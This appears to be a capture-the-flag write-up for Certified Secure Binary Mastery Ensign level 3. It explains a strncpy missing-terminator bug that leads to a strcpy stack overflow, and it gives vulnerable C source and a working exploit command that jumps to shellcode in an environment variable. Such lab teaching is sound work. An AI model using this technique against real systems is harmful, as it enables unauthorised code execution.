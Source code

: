 ```yaml
---
title:  "[CTF] Binary Master Ensign - 3"
---
```


![Logo](/assets/images/belts-orange.png)

In this post we'll continue with level3 of the **Certified Secure Binary Mastery**, [Ensign](https://www.certifiedsecure.com/certification/view/37). 
This time we will be dealing with a slightly more interesting vulnerability, an application logic vulnerability, again involving strings operations.
To review the previous levels, check the links below:
* [Binary Master: Ensign - Level 1](https://livz.github.io/2016/01/07/binary-master-ensign-1.html)
* [Binary Master: Ensign - Level 2](https://livz.github.io/2016/01/14/binary-master-ensign-2.html)

## 0 - Discovery

Let's connect to the server and check the binary we're dealing with:
```
$ ssh level3@hacking.certifiedsecure.com -p 8266
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 3.13.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '16.04.2 LTS' available.
Run 'do-release-upgrade' to upgrade to it.



   ___  _                      __  ___         __              
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                 _            /___/  
                             ___ ___  ___ (_)__ ____ 
                            / -_) _ \(_-</ / _ `/ _ \
                            \__/_//_/___/_/\_, /_//_/
                                          /___/      

```

Let's see if we have any mitigation techniques using [checksec.sh](http://www.trapkit.de/tools/checksec.html), downloaded and run locally:
```bash
$ checksec.sh --file level3
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   level3
```

NX is disabled and again there is no stack canary. Good news. Let's verify that the stack is executable:

```
$ readelf -lW level3 | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x10
```

The R**W**E flag suggests Read-**Write**-Execute flags are all enabled. Also remember from the previous levels that ASLR is disabled on the system and all the addresses are static.

## 1 - Vulnerability

In this case we have a logic vulnerability. Notice that now string copying is done in a more secure way, using the [strncpy](http://www.cplusplus.com/reference/cstring/strncpy/) function, which receives as its 3rd parameter a maximum number of character to be copied from source to destination buffer. There is a very important caveat here, however:
> No null-character is implicitly appended at the end of _destination_ if _source_ is longer than _num_. Thus, in this case, destination shall not be considered a null terminated C string (reading it as such would overflow).

```c
#include <string.h>
#include <stdio.h>

void foo(char* a, char* b) {
        char buf1[16];
        char buf2[16];
        char buf3[16];
        int i;

        for (i=0; i<16;i++) {
                buf2[i] = "A";
        }

        if (strlen(a) <= sizeof(buf3)) {
[1]             strncpy(buf3, a, sizeof(buf3));


[2]             if (strlen(b) <= strlen(buf3)) {
[3]                     strcpy(buf1, b);
                }
        }
}

int main(int argc, char** argv) {
        if (argc != 3) {
                printf("Usage: %s <a> <b>\n", argv[0]);

                return -1;
        }

        foo(argv[1], argv[2]);
        return 0;
}
```


* So the call to **strncpy(buf3, a, sizeof(buf3)) [1]** will **not** add a null terminator to **buf3** if parameter **a** (first user input!) is exactly 16 characters.
* Following this, the call to **strlen(buf3) [2]** will go over the bounds of the string **buf3** (no null terminator for **buf3**) and will return a larger value than expected. 
* This will lead to the execution of the **strcpy(buf1, b) [3]** call, which will overflow **buf1** with **b** (second user input), thus giving us the posibility to control again the return address from function **foo**.


## 2 - Exploit

For all the steps describe before to work, the layot of the stack of function **foo** is very important. Let's check that in IDA. After a bit of renaming, the variables on the stack look like this: 

![Stack Layout](/assets/images/bm3-1.png)

Steps:
* We need a payload of 16 characters in **a**.
* We need to put 32 bytes in **buf1** from **b** in order to overwrite the return address. 
* We'll use the same trick with the shellcode placed in an environment variable, and overwrite EIP with the address of the variable.

```bash
$ ./level3 $(python -c 'print "B"*16') $(python -c 'print "C"*32 + "\xd3\xd8\xff\xff"')
$ id
uid=1004(level3) gid=1004(level3) euid=1005(level4) groups=1005(level4),1004(level3)
```

## 3 - Profit

```
$ /home/level4/victory
   ___  _                      __  ___         __
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                 _            /___/  
                             ___ ___  ___ (_)__ ____    
                            / -_) _ \(_-</ / _ `/ _ \   
                            \__/_//_/___/_/\_, /_//_/   
                                          /___/         
                                          
Subject: Victory!                         

Congrats, you have solved level3. To update your score,
send an e-mail to unlock@certifiedsecure.com and include:
   * your CS-ID
   * which level you solved (level3 @ binary mastery ensign)
   * the exploit 
   
You can now start with level4. If you want, you can log in
as level4 with password  [REDACTED] 
```

In the [next level](https://livz.github.io/2016/01/28/binary-master-ensign-4.html) we'll exploit more buffer overflows, but this time over the network.
